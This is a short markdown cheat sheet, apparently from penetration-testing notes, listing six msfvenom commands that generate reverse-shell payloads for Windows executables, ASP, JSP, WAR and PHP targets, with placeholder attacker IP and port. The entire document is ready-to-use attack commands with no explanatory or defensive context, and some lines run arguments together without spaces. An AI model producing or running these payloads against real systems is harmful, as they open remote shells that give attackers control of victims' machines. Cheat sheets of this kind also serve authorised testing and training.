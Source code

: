 ### msfvenom
- `msfvenom -p windows/shell/reverse_tcp LHOST=<IP>LPORT=<PORT>-f exe >shell-x86.exe`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP>LPORT=<PORT>-f exe >shell-x64.exe`
- `msfvenom -p windows/shell/reverse_tcp LHOST=<IP>LPORT=<PORT>-f asp >shell.asp`
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP>LPORT=<PORT>-f raw >shell.jsp`
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP>LPORT=<PORT>-f war >shell.war`
- `msfvenom -p php/reverse_php LHOST=<IP>LPORT=<PORT>-f raw >shell.php`
